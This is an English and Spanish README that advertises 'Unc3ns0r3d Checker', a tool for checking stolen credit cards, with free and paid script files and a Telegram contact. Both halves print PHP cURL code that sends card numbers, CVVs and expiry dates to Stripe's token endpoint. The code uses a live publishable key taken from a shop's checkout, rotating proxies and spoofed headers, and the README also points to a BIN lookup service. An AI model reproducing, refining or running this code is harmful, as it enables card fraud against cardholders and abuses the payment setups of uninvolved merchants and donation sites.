 <a href="http://uncensored.vzpla.net/"><img src="https://i62.servimg.com/u/f62/12/98/31/84/logo10.jpg?v=3&s=200" title="Unc3ns0r3d Checker" alt="Unc3ns0r3d Checker v2"></a>

# ⛔Unc3ns0r3d-Checker⛔

> Language: EN (ENGLISH)

✔ Credit card 💳 checker, based on real donation systems and other type of donations.


```php
// cURL Stripe Method by ⛔UJnc3ns0r3d⛔

$url1 = 'https://api.stripe.com/v1/tokens';
$url2 = 'https://www.anime-shop-online.com/cart';
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL,$url1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_PROXY, "http://$re_proxy:$port");
curl_setopt($ch, CURLOPT_PROXYUSERPWD, "$username-session-$session:$password");
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_USERAGENT, $_SERVER['HTTP_USER_AGENT']);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
curl_setopt($ch, CURLOPT_COOKIEFILE, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_COOKIEJAR, getcwd().'/cookie.txt');
    curl_setopt($ch, CURLOPT_HTTPHEADER, array(
   'Host: api.stripe.com',
'User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0',
'Accept: application/json',
'Content-Type: application/x-www-form-urlencoded',
'Referer: https://js.stripe.com/v2/channel.html?stripe_xdm_e=https%3A%2F%2Fwww.thelambcenter.org&stripe_xdm_c=default816925&stripe_xdm_p=1',
'Connection: keep-alive'
    ));
curl_setopt($ch, CURLOPT_POSTFIELDS, 'card[name]='.$name.'+'.$last.'&card[number]='.$cc.'&card[cvc]='.$cvv.'&card[exp_month]='.$mes.'&card[exp_year]='.$ano.'&guid=061ff506-3903-498a-8f51-6c186f16f8ca&muid=7aea1b41-a3a5-4a59-adcd-c1b9697c50d2&sid=9f8fcbca-42eb-4131-9f86-d326ea6a5af2&payment_user_agent=stripe.js%2Fc272b3d3%3B+stripe-js-v3%2Fc272b3d3&referrer=https%3A%2F%2Fwww.anime-shop-online.com%2Fcart&key=pk_live_mw2Cnk8hIQMzEbJMcA2gjYNy&pasted_fields=number%2Ccvc');
$pagamento = curl_exec($ch);
$token = trim(strip_tags(getstr($pagamento,'id": "','"')));
```
###  SITES 🌐


- **Site API 1**
    - https://api.stripe.com/v1/tokens
    
- **Site BIN 1**
    - https://lookup.binlist.net/


### Files included 📂

- api.php **Free**
- api_1.php **Free**
- api_p1.php **Pay**
- api_p2.php **Pay**


### About Me 👨‍💻

Founder of Unc3ns0r3d💳 - HasBins💳 - CloudChckr💳 (Closed)

My favorite programming languages are C ++, VB.NET, PYTHON, PHP, JAVASCIPRT and JQUERY❤

I love coffee❤

The Unc3ns0r3d project was created 04/26/2018

### Contact Me ✉
- @MrPopos2 - Telegram

================================================================

> Idioma: ES (Español)

Checker de tarjetas de crédito, basado en sistemas de donación reales y stripe

```php
// cURL Stripe Method by ⛔UJnc3ns0r3d⛔

$url1 = 'https://api.stripe.com/v1/tokens';
$url2 = 'https://www.anime-shop-online.com/cart';
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL,$url1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_PROXY, "http://$re_proxy:$port");
curl_setopt($ch, CURLOPT_PROXYUSERPWD, "$username-session-$session:$password");
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_USERAGENT, $_SERVER['HTTP_USER_AGENT']);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
curl_setopt($ch, CURLOPT_COOKIEFILE, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_COOKIEJAR, getcwd().'/cookie.txt');
    curl_setopt($ch, CURLOPT_HTTPHEADER, array(
   'Host: api.stripe.com',
'User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0',
'Accept: application/json',
'Content-Type: application/x-www-form-urlencoded',
'Referer: https://js.stripe.com/v2/channel.html?stripe_xdm_e=https%3A%2F%2Fwww.thelambcenter.org&stripe_xdm_c=default816925&stripe_xdm_p=1',
'Connection: keep-alive'
    ));
curl_setopt($ch, CURLOPT_POSTFIELDS, 'card[name]='.$name.'+'.$last.'&card[number]='.$cc.'&card[cvc]='.$cvv.'&card[exp_month]='.$mes.'&card[exp_year]='.$ano.'&guid=061ff506-3903-498a-8f51-6c186f16f8ca&muid=7aea1b41-a3a5-4a59-adcd-c1b9697c50d2&sid=9f8fcbca-42eb-4131-9f86-d326ea6a5af2&payment_user_agent=stripe.js%2Fc272b3d3%3B+stripe-js-v3%2Fc272b3d3&referrer=https%3A%2F%2Fwww.anime-shop-online.com%2Fcart&key=pk_live_mw2Cnk8hIQMzEbJMcA2gjYNy&pasted_fields=number%2Ccvc');
$pagamento = curl_exec($ch);
$token = trim(strip_tags(getstr($pagamento,'id": "','"')));
```

###  SITIOS 🌐

- **Sitio API 1**
    - https://api.stripe.com/v1/tokens
    
- **Sitio BIN 1**
    - https://lookup.binlist.net/


### Archivos Incluidos 📂

- api.php **Gratuito**
- api_1.php **Gratuito**
- api_p1.php **Pago**
- api_p2.php **Pago**

### Sobre Mi 👨‍💻

Fundador de Unc3ns0r3d💳 - HasBins💳 - CloudChckr💳 (Cerrado)

Mis lenguajes favorios de programación son C ++, VB.NET, PYTHON, PHP, JAVASCIPRT y JQUERY❤

Amo el café❤

Proyecto Unc3ns0r3d fue creado el día 04/26/2018 / Editado 24/08/2019

### Contactame ✉
- @MrPopos2 - Telegram
